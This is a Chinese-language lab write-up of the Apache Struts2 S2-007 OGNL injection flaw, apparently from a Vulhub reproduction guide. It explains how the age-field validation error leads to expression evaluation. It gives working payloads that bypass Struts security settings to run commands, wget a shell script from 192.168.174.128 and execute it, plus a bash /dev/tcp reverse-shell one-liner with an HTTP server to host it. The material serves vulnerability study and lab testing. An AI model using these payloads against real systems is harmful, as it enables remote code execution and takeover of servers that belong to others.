


Apache Struts2 S2-007 远程代码执行漏洞¶
漏洞描述¶
参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html
当配置了验证规则 <ActionName>-validation.xml 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：
(...)
public class UserAction extends ActionSupport {
private Integer age;
private String name;
private String email;
(...)
然后配置有 UserAction-validation.xml：
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
"-//OpenSymphony Group//XWork Validator 1.0//EN"
"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
<field name="age">
<field-validator type="int">
<param name="min">1</param>
<param name="max">150</param>
</field-validator>
</field>
</validators>
当用户提交 age 为字符串而非整形数值时，后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。
因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（弹计算器，无法在本项目环境下运行）：
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
漏洞详情:
漏洞影响¶
影响版本: 2.0.0 - 2.2.3
环境搭建¶
Vulhub 执行以下命令启动 s2-007 测试环境：
docker-compose build
docker-compose up -d
访问 http://your-vps-ip:8080/index.jsp 即可进入上传表单页面。
漏洞复现¶
执行任意代码的 EXP：
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
将 Exp 传入可以利用的输入框（age），得到命令执行结果：

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
上传 shell.sh 文件的 Payload 为：
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
执行 shell.sh 文件的命令为：
bash /usr/local/tomcat/shell.sh
执行 shell.sh 文件的 Payload 为：
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
成功接收反弹 shell：
